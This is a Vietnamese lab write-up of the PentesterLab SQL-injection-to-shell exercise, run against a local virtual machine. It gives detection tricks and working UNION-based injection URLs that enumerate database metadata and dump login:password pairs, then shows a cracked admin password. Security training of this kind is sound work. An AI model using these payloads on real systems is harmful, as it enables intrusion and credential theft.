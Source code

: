 **1. Tìm hiểu sqli là gì? Xảy ra khi nào? Tác hại?
--------------------------------------------------

- Sql Injection (SQLi) là một kỹ thuật cho phép những kẻ tấn công lợi dụng lỗ hổng của việc kiểm tra dữ liệu đầu vào trong các ứng dụng web và các thông báo lỗi của hệ quản trị cơ sở dữ liệu trả về để inject (tiêm vào) và thi hành các câu lệnh SQL bất hợp pháp, Sql Injection có thể cho phép những kẻ tấn công thực hiện các thao tác, thêm, sửa, xóa… trên cơ sở dữ liệu của ứng dụng. 

- Lỗi này thường xảy ra trên các ứng dụng web có dữ liệu được quản lý bằng các hệ quản trị cơ sở dữ liệu như SQL Server, MySQL, Oracle, DB2, Sysbase...

- Sql Injection được mô tả như là một trong những lỗ hổng bảo mật web nguy hiểm nhất. Khai thác Sql Injection, ngoài việc đoạt được quyền kiểm soát về mặt dữ liệu như đã nói ở trên, hacker còn có thể cài đặt backdoor trên server mà ứng dụng đang chạy, qua đó kiểm soát toàn bộ hệ thống…

**2. Chèn dữ liệu vào trong MySQL Database sử dụng PHP
------------------------------------------------------

Dữ liệu có thể được chèn vào MySQL Table bằng việc thực thi lệnh SQL INSERT thông qua hàm mysql_query trong PHP. Dưới đây là ví dụ đơn giản để chèn một record vào trong một Table có tên là employee.

**3. Lab from_sqli_to_shell:
----------------------------

https://pentesterlab.com/exercises/from_sqli_to_shell

Sau khi tải file .iso dựng máy áo chứa sql server chúng ta cần để thực hiện bài lab này

Truy cập vào trang của server ở đây là `http://192.168.1.102/`

<img src="http://i.imgur.com/X5EKRR3.jpg">

Như trong bài `Sql Injection (SQLi)` mà chúng ta đọc ở https://whitehat.vn/forum/thao-luan/web-security/963-web1-sql-injection---con-duong-khai-thac-pho-bien-qua-%93user-input%94 có thể nhận định rặng rỗi sqli xảy ra ở giá trị của biến id trên URL 

Ở đây ta kiếm được `http://192.168.1.102/cat.php?id=1` với giá trị id=1 cũng có thể thay được 2,3,4 ứng với các trang khác nhau

<img src="http://i.imgur.com/bTceP2n.jpg">

**Một số tính chất để phát hiện SQL injection khá hiệu quả:**

- Nếu truy cập /article.php?id=2-1 hiển thị được trang và truy cập /article.php?id=2-0 chuyển về article2, phép trừ được thực hiện bởi cơ sở dữ liệu, và bạn có thể đã tìm thấy một SQL injection

-Nếu truy cập /article.php?id=2-1 chuyển về article2 và truy cập màn /article.php?id=2-0 vẫn chuyển về article2, nó không chắc rằng bạn có SQL injection trên một số nguyên, nhưng bạn có thể có SQL injection trên một chuỗi giá trị như chúng ta sẽ thấy.

-Nếu bạn đặt một dấu ' trong URL (/article.php?id=1 '), bạn nhận được một lỗi.

Dựa vào đó ta sẽ kiểm tra lần lượt và phát hiện được lỗi SQL injection

http://192.168.1.102/cat.php?id=1  
http://192.168.1.102/cat.php?id=2-1 
http://192.168.1.102/cat.php?id=1-0 
http://192.168.1.102/cat.php?id=1'

<img src="http://i.imgur.com/m7YAlpI.jpg">

Bây giờ chúng ta đã tìm được SQL injection trong trang `http://192.168.1.102/cat.php`. Chúng ta cần khai thác nó đê có thông tin, để làm được điều này chúng ta cần sử dụng `UNION` có sẵn ở sql

Khai thác SQL injection sử dụng UNION sau các bước dưới đây:

1. Tìm số cột để thực hiện các UNION

2. Tìm những gì cột được lặp lại trong trang

3. Lấy thông tin từ cơ sở dữ liệu meta-bảng

4. Lấy thông tin từ các bảng / cơ sở dữ liệu khác

Để giải quyết vấn đề này có thể sử dụng `http://192.168.1.102/cat.php?id=1 UNION SELECT 1` sau đó tăng lên `1,2` rồi `1,2,3` rồi `1,2,3,4` sễ nhận được thông báo lỗi ở cột 2

Cách này thường hên xui với số cột ít nên chúng ta sẽ sử dụng lệnh `ORDER BY` `http://192.168.1.102/cat.php?id=1 ORDER BY 4` sẽ không có thông báo lỗi nên xác định được có 4 cột

<img src="http://i.imgur.com/m7YAlpI.jpg">

Giờ chúng ta đã xác định được số cột và bị lỗi ở cột nào ( ở đây cột 2). Ngoài ra chúng ta có thể xem một số thông tin như:

- the database version: `http://192.168.1.102/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4`

- the current user: `http://192.168.1.102/cat.php?id=1%20UNION%20SELECT%201,current_user(),3,4`

- the current database: `http://192.168.1.102/cat.php?id=1%20UNION%20SELECT%201,database(),3,4`

MySQL cung cấp các bảng chứa các thông về các dữ liệu. Chúng ta sẽ dùng information_schema để khai thác nó
`http://192.168.1.102/cat.php?id=1 UNION SELECT 1, table_name, column_name,4 FROM information_schema.columns`

<img src="http://i.imgur.com/IQgNJx9.jpg">

Nhận ra ngay có xuất hiện bảng và cột user => vậy chắc chắn nó phải chứa thông tin tài khoản => lấy dữ liệu từ bản này 

`UNION SELECT 1,concat(login,':',password),3,4 FROM users;`

<img src="http://i.imgur.com/dAw0Tb1.jpg">

Vậy là chúng ta có được tài khoản: admin và mật khẩu được mã hóa dưỡi mã MD5 decode được mật khẩu: P4ssw0rd
